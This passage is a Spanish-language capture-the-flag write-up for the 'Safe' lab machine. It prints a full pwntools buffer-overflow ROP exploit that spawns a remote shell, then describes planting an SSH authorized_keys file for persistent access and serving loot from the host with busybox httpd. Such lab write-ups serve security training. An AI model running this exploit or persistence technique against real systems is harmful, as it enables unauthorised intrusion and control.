 #Explotación


Vamos a crear un exploit en python3 que haga la llamada al programa, desborde el buffer y meta las instrucciones en los registros.

>\#!/usr/bin/python3

>from pwn import *

>context(terminal=['tmux', 'new-window'])

>context(os='linux', arch='amd64')

>p = remote("10.10.10.147", 1337)

>junk = b"A"*112 # a los 120 se restan los caracteres de /bin/sh\x00 = 7 caracteres + nullbyte = 8 caracteres

>bin_sh = b"/bin/sh\x00"

>\# gef➤  ropper --search "pop r13"

>\# 0x0000000000401206: pop r13; pop r14; pop r15; ret; 

>pop_r13 = p64(0x401206)
>null = p64(0x0)

>\#  0000000000401040 <system@plt>:

>\#  401040:	ff 25 da 2f 00 00    	jmp    *0x2fda(%rip)        # 404020 <system@GLIBC_2.2.5\>

>\#  40116e:	e8 cd fe ff ff       	call   401040 <system@plt>

>system_plt = p64(0x401040)

>\# 0000000000401152 <test>:

>test = p64(0x401152)

>payload = junk + bin_sh + pop_r13 + system_plt + null + null + test

>p.sendline(payload)

>p.interactive()

Lanzamos el exploit y nos na una shell de usuario con el usuario user.

![Shell de user]({{site.baseurl}}/assets/img/Safe/screensht_22-06-09_20_36_47.png)

Esta es una pseudo consola, lo  ideal seria poder usar una consola plena, revisamos el home del user y ya podemos ver la flag de user, ademas vemos que tiene .ssh con lo que podemos crear un par de claves en nuestro equipo y copiar la clave publica a la maquina safe como authorized\_keys y asi poder entrar por ssh como user sin que nos pida la contraseña.

![Authorized_keys]({{site.baseurl}}/assets/img/Safe/screensht_22-06-09_21_13_17.png)

***************************

#Escalada de privilegios

Una vez dentro como user vemos que en el home tenemos un archivo de keepass y unas cuantas imagenes, nos las copiamos a nuestra maquina para poder enumerarlas. Como la máquina no tiene ni curl, ni wget ni python podemos intentar copiarlas mediante bussybox: 
>busybox httpd -f -p 8000
 